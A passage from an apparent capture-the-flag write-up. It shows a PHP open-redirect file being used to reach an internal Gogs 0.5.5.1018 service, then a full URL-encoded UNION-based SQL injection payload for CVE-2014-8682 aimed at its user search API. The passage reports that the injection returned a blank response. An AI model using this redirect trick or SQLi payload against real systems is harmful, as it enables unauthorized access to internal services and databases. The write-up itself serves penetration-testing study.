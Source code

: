 https://book.hacktricks.xyz/pentesting-web/open-redirect

```php
<?php header("Location: http://10.10.11.176:3000");?>
```

I called this file `redirect.php` and move it to `/var/www/html`

<img src="https://i.imgur.com/OtZmPLG.png"/>

<img src="https://i.imgur.com/enHCNei.png"/>

So it seems like there's `Gogs` (Go Git Service) running on port 3000 which also reveals the version which is `0.5.5.1018`

<img src="https://i.imgur.com/wt0ODFL.png"/>

On google for exploits, this version is vulnearble to sqli which was reported in 2014 with a CVE `CVE-2014-8682`, this CVE is quite old but it fits for the version

https://www.exploit-db.com/exploits/35238


<img src="https://i.imgur.com/XZ7tYqs.png"/>

So I copied the payload with the header request in the php file by url encoding it 

<img src="https://i.imgur.com/p34Vxco.png"/>

And pasted this with the GET request on `/api/v1/users/serach?q`

```php
<?php header("Location: http://10.10.11.176:3000/api/v1/users/search?q=%27%2F%2A%2A%2Fand%2F%2A%2A%2Ffalse%29%2F%2A%2A%2Funion%2F%2A%2A%2Fselect%2F%2A%2A%2Fnull%2Cnull%2C%40%40version%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2F%2A%2A%2Ffrom%2F%2A%2A%2Fmysql%2Edb%2F%2A%2A%2Fwhere%2F%2A%2A%2F%28%27%2525%27%253D%27");?>
```

<img src="https://i.imgur.com/DDeyk7U.png"/>

I created a webhook again, kept my netcat running to receive a response

<img src="https://i.imgur.com/orJ6BTb.png"/>

Now this should give us database version in response but it gave a blank response so sqli didn't worked here

<img src="https://i.imgur.com/EDwTNnu.png"/>

For testing this, I installed the same version of gogs on my local machine and for this I followed this article to install gogs , this is a optional step as I wanted to know why the sqli payload didn't worked 

After creating a seperate user and extracting gogs in that user's directory and got the service up and running 

